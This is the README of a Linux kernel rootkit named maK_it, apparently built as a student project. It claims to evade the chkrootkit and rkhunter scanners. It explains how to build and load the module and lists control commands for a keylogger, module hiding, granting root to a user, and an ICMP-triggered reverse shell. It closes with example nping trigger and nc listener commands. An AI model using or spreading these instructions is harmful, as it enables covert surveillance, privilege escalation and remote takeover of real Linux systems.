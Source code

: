 maK_it-Linux-Rootkit

========================

This is a simple rootkit implementation for the project described
at the following locations
http://blogs.computing.dcu.ie/wordpress/mak0/

http://r00tkit.me


This rootkit avoids both the chkrootkit & rkhunter scanners as intended.

It is fully compatible with the latest version of CentOS 6.5


To run simply run "make" in the folder with the Makefile.

install with 
insmod maK_it.ko

Remove with 
rmmod maK_it


===============
Demo Commands
===============
Echo any of the following into /dev/.maK_it


debug - turn /var/log/messages debug messages on or off.

keyLogOn - turn the keylogger on

keyLogOff - turn the keylogger off

modHide - hide the module (hidden by default in insmod)

modReveal - reveal the module (so you can rmmod it)

rootMe - give root privileges to user

shellUp - Turn on a packet sniffer for reverse shell icmp

shellDown - Turn off the packet sniffer daemon

To trigger the reverse shell, listen on a port of your choice
on your own machine. The shell will be returned if you send an 
icmp packet with the right trigger word, your ip/port.

Example: nping --icmp -c 1 -dest-ip 127.0.0.1 --data-string 'maK_it_$H3LL 127.0.0.1 31337'

A port listener can be simply opened on your machine using nc -l 31337
